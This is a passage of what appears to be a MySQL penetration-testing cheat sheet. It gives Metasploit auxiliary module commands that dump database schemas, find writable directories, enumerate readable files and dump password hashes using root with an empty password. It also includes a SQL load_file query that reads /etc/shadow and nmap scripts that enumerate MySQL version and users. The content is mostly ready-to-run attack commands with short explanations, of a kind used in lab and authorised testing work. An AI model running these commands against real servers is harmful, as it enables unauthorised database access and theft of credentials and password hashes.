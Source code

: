 ```msfconsole
msfconsole -q
use auxiliary/scanner/mysql/mysql_schemadump
set RHOSTS <ip-address>
set USERNAME root
set PASSWORD ""
exploit
```

> Dump the schema of all databases from the server using metasploit module.

```msfconsole
use auxiliary/scanner/mysql/mysql_writable_dirs
set DIR_LIST /usr/share/metasploit framework/data/wordlists/directory.txt
set RHOSTS <ip-address>
set VERBOSE false
set PASSWORD ""
exploit
```

> Tells if there are any writeable directories or not.

```msfconsole
use auxiliary/scanner/mysql/mysql_file_enum
set RHOSTS <ip-address>
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""
exploit
```

> Tells about any readable files.

```SQL
select load_file("/etc/shadow");
```

> This command reads the contents of the system's `/etc/shadow` file, which stores encrypted password information for Linux user accounts.

```msfconsole
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS <ip-address>
set USERNAME root
set PASSWORD ""
exploit
```

> This is used to list all the users and their passwords hashes.

```Shell
nmap --script=mysql-info -p 3306 <ip-address>
```

> The command retrieves basic information about the MySQL service running on port 3306 of the target host, including the MySQL version, protocol version, and server status.

```Shell
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 <ip-address>
```

